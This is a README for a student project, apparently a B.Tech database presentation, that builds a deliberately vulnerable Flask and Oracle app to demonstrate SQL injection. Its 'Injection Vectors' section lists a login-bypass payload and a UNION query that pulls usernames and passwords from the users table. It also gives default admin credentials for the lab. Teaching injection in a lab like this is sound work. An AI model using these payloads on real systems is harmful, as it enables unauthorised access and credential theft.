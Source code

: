 # VulnSequel

A PoC to demonstate basic SQL injection vulnarabilities. B. Tech DBMS Presentation by Abhineet Kumar & Soumyadip Mondal.

## Build Guide

1. Start your oracle database.
2. Export your credentials to environment.
    For Linux:

    ```bash
    export dbcred='user/pass@host:port'
    ```

3. Then run this to start the app

   ```bash
   pip install -r requirements.txt
   flask run
   ```

4. Create Users Table and populate with dummy data

   ```sql
   CREATE TABLE USERS(username varchar2(26) NOT NULL PRIMARY KEY, pass varchar2(16) NOT NULL);
   ```

5. Create books table and populate with dummy data

   ```sql
   CREATE TABLE BOOKS (BOOK_NO NUMBER(6) PRIMARY KEY, BOOK_NAME VARCHAR2(30) NOT NULL, AUTHOR_NAME VARCHAR2(30), COST NUMBER(7,2), CATEGORY CHAR(10));
   ```

## Using docker

Remember: It's just experimental. May not work out of the box.

### Build

```bash
docker build -t unsuitable001/vulnsql .
docker run -d -p 49161:1521 -p 8080:8080 -p 5000:5000 -v ${PWD}:/devrepo unsuitable001/vulnsql
docker exec -ti <container_name/id> /bin/bash
```

### Run

```bash
docker start <container_name/id>
docker exec -ti <container_name/id> /bin/bash
```

From the shell of the container, run `./start_db.sh` to start the database and `./start.sh` to start the server. **Database gets started automatically.**

### Database

```bash
# Login http://localhost:8080/apex/apex_admin with following credential:
username: ADMIN
password: admin
```

Then create a new workspace, schema and set password accordingly.

## Injection Vectors

### Login

```sql
admin' OR 1 = 1 --
```

### Book Search

```sql
a') UNION SELECT 0, username, pass, 0, 'OTHERS' FROM USERS --
```

## Troubleshooting

1. Make sure that your python arch and Oracle db client arch match up.
2. Make sure to start your dabatase service, i.e `sudo service oracle-xe start`.
3. If there is an error saying `Cannot locate a 64-bit Oracle Client library: "libclntsh.so` or something like that, try doing `export LD_LIBRARY_PATH=$ORACLE_HOME/lib:LD_LIBRARY_PATH` and `source /u01/app/oracle/product/11.2.0/xe/bin/oracle_env.sh`.
4. Do remember, all of the export commands gets enabled for single termial instance. If you close terminals and open again, it gets resetted. For persistance, put these in your `.bashrc` file.
5. For more db related issues, try looking at [cx_Oracle docs](https://cx-oracle.readthedocs.io/en/latest/user_guide/installation.html).
